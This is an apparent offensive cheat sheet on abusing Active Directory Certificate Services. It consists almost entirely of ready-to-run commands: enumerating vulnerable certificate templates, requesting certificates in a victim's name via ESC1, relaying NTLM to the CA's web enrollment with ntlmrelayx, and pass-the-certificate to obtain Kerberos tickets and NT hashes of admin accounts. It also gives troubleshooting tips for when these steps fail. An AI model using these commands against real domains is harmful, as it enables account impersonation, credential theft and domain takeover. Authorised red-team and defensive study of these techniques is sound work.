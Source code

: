# AD Certificate Services (PKI Abuse)
(copied from https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux
### Using certipy
Example using Kerberos via proxychains...   
First calculate NT hash for the users PW using Python:
```python
import hashlib,binascii
hash = hashlib.new('md4', "SecureP4ssword".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```
Then get the Kerberos ticket using this hash: (Include the colon before the hash!)   
`proxychains getTGT.py domain.local/username -dc-ip 10.0.10.1 -hashes :<HASHFROMPREVIOUSSTEP>`   
Add the generated ccache file to the environment variable:   
`export KRB5CCNAME=/home/kali/username.ccache`   
Now run certipy using Kerberos Auth:   
`proxychains certipy find -u username@domain.local -target dc01.domain.local -vulnerable -k -ns <dnsserverip> -dns-tcp -timeout 10 -enabled -debug`   

### Using Certi
Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=/full/path/to/<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux
 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
## Authenticating using cert on Linux

Request an TGT from Certificate with Client Auth or Smart Card Auth
```shell
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
 ```

Get NTHash from requestd TGT above (KEY is outputed from the command above) 
```shell
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```
Note: You have to change the KRB5CCNAME variable to the target users tgt ccache file first (admin_tgt.ccache above):
```shell
export KRB5CCNAME=/full/path/to/admin_tgt.ccache
```

## ESC 1 POC using Certipy
The following example uses the tool certipy to request a certificate of a victim user using the ESC1 vulnerable template. In this case the nameserver and dns-tcp are specified, due to proxifying the DNS queries over SOCKS proxy:   
`proxychains certipy req -u user1@domain.local -target ca-server.domain.local -k -ca 'Demo Issuing CA' -template SomeBrokenTemplate -upn victimuser@domain.local -ns 10.0.1.2 -dns-tcp -timeout 10 -debug`   

Once you have the pfx file for the user, authenticate to get the Kerberos ticket (ccache file) and NT hash of the victim user:   
`proxychains certipy auth -pfx victimuser.pfx -dc-ip 10.0.0.1`   

To test the received krb ticket for the user, you can e.g. try to connect to the DC using smbclient:   
`smbclient.py -k domain.local/victimuser@dc01.domain.local -no-pass `   

**Some Notes**   
 - The target of the certipy req command must be the CA, not the DC!
 - The CA name has to be the exact same as in the output of e.g. certipy find command. If it contains spaces, use quotes. 
   Example: `certipy req -u user1@domain.local -target ca-server.domain.local -k -ca 'Demo Issuing CA' -template SomeBrokenTemplate -upn victimuser@domain.local -ns 10.0.1.2 -dns-tcp -timeout 10 -debug`
 - If the certipy auth using pfx returns the error `[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)`, this means the target DC does not have Smart Card Auth enabled or is missing the relevant certificate. In this case try to e.g. use LDAPS. You can verify the validity of the pfx file for example using Lee Christensens "Get-LdapCurrentUser"(https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-LdapCurrentUser.ps1) PowerShell function:
   `Get-LdapCurrentUser -Server 10.0.0.1:636 -Certificate C:\users\bob\desktop\victimuser.pfx -UseSSL [-AuthType Kerberos]`

## Relaying On Linux

Relaying incoming SMB/HTTP connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```

# Pass-The-Certificate
From: https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate    
A Kerberos service ticket, can only be obtained by presenting a TGT. This TGT can be obtained by
a) ASREPRoast (if Kerberos pre-auth is disabled)
b) symmetrical pre-authentication (using a DES,RC4,AES128 or AES256 key)
c) asymmetrical pre-authentication (using certificates) --> This is also called PKINIT

Pass-The-Certificate is the fancy given name of this certificate based pre-authentication.   

NOTE: Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. 

## Windows
`Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show`   

NOTE: PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.   
`openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"`   

## Unix 
```
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```
Alternatively, certipy (python) can be used:   
`certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'`   
Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file:   
`certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"`   

The ticket obtained can then be used to:   
1. authenticate with [pass-the-cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc)   
2. conduct an [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) attack. This can be done with getnthash.py from PKINITtools.   
3. obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from PKINITtools.   

NOTE: When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the TGT obtained.   
